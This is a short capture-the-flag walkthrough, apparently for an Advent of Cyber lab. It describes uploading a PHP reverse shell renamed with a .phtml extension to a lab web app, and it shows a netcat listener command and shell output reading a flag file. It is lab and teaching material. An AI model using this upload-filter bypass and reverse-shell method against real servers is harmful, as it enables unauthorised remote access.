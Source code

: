 ```console
bibo318@parrot:~/day23$ cat santacrack.txt
```

## Santa has a secret! Which station is he meeting Mrs Mistletoe in?
use the Santa's cerdentail and login to the web app. check the messages
## Once you're logged in to LapLANd, there's a way you can gain a shell on the machine! Find a way to do so and read the file in /home/user/
I tried to upload the revers-shell.php in ```/usr/share/webshells/php``` none of them works. So I try to do some research a [walkthrought by embeddedhacker](https://www.embeddedhacker.com/2019/12/hacking-walkthrough-thm-cyber-of-advent/#day23) said that we need a older version of ```php``` so call ```.phtml``` which you can download [here](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)

save it and change ip to ur ip and port
```console
bibo318@parrot:~/day23$ nc -lnvp 20000 # run netcat using the port that you wrote in the script
listening on [any] 20000 ...
```
now upload our payload (reverse-shell scrip)
```console
$ whoami
www-data
$ ls /home
user
$ ls /home/user
flag.txt
$ cat /home/user/flag.txt
@@@########################################################################@@@@
@@@(((((((((((((((((((((((((((((((((((%#(((((((((((((((((((((((((((((((((((@@@@
@@@(((((((((((((((((((((((((((((((((%%,*%%(((((((((((((((((((((((((((((((((@@@@
@@@((((((((((((((((((&%(((((((((((%#*/##(((((((((((#@%%((((((((((((((((((@@@@
@@@(((((((((((((((((((%(//%((((((#(//,*%%((((((#/,(#(((((((((((((((((((@@@@
@@@((((((((((((((((((((#(*%#/##,*#&%%%&%%,*%###%%/*&(((((((((((((((((((((@@@@
@@@(((((((((((((((((((((#(&@(*(#(##%&%#%%%%#((%,*%&((((((((((((((((((((((((@@@@
@@@(((((((((((((((((((((((@%%((#(**/*#,*(*//*/(((%%@(((((((((((((((((((((((@@@@
@@@(((((((((((((((((((((((%%#(##,#**,##%#,*(#*#((%%#(((((((((((((((((((((((@@@@
@@@(((((((((((((((((((((((#/#*(,*/((((((((((/****%*%(((((((((((((((((((((((@@@@
@@@(((((((((((((((((((((((#(&/,,,,,,,,,,,,,,/%&&/#(((((((((((((((((((((((@@@@
@@@((((((((((((((((((((((((#&((##(/********/(#(((&%((((((((((((((((((((((((@@@@
@@@((((((((((((((((((((((((((((((((########((((((((((((((((((((((((((((((((@@@@
@@@(((((((((((((((((((((((((((((((((#((((((((((((((((((((((((((((((((((((((@@@@
@@@(((((((((((((((((((((((((%/((,     .      *##/%(((((((((((((((((((((((((@@@@
@@@((((((((%((((((%((((((%###  .      .       .  %%(%((((((%((((((&((((((((@@@@
@@@((((((%/,##((%/ #(((((%###  .   .  .       .. %%#%(((((&.(&((%( (#((((((@@@@
@@@(((((#*,(%*%,%%/ (##((%###  .  .   .        * %%#%(((%# (%###(%( #((((((@@@@
@@@((#%%.*#%,*#,/((# %(#%%### /*,./..*..,/ , ,*/ %%#%#%(/ (%,%/,%.(#,*##%((@@@@
@@@(((# #(#,/(*(#./## /((%### /*/%&&,(..,/#,%.(  %%#%(#./%#,/%.(%,(##* #(((@@@@
@@%#((#(/##%/%%(#%#%(%###.**.,*,.*.,,. **.*  %%#%(%#%#/%&*%%*&%((#((##@@@
@@&%(((#,##(*#%/%(,## #((%###  .(     .    ,. .  %%#%((#.#((,%(*%(,##.((((#&@@@
@@@@((((# %#,/#,#/(#(((((%###  .      .       .  %%#%(((((,#*#*#/,(% #((((&@@@@
@@@&((((((%#&,#(/%(((((%###..,/#####&%#####*. .%%#%(((((##&*##.%##((((((@@@@@
@@@@&((((((##(((#%(((((((%#(####//(##%@&%###((####(#%((((((###((###((((((%#@@@@
@@@@@((((((((((((((((((((#%%%%%%%%%%%%%#%%%%%%%%%%%%%((((((((((((((((((((@,@@@@
@@@@&@(((((((((((((((((((((((((((((((##%(#((((((((((((((((((((((((((((((#.@@@@@
@@@@@ #((((((((((((((((((((((((((((%/%&&%%##((((((((((((((((((((((((((((@@@@@@@
@@@@@@@#(((((((((((((((((((((((((%.( /%@,( (/#(((((((((((((((((((((((((@@@@@@@@
@@@@@@@&((((((((((((((((((((((%#.(   /&%*/   (.(%(((((((((((((((((((((@%@@@@@@@
@@@@@@@@%%((((((((((((((((#&(#.* . ** /@./,,.. / &(%((((((((((((((((#@,@@@@@@@@
@@@@@@@@@.&(((((((((((((((&@@&%, /#,  /%, .#&@@@%%#((((((((((((((%#@@@@@@@@@@
@@@@@@@@@@%@((((((((((((((#&..,,%&@. #//(( /@@#., ,(((((((((((((@%@@@@@@@@@@@
```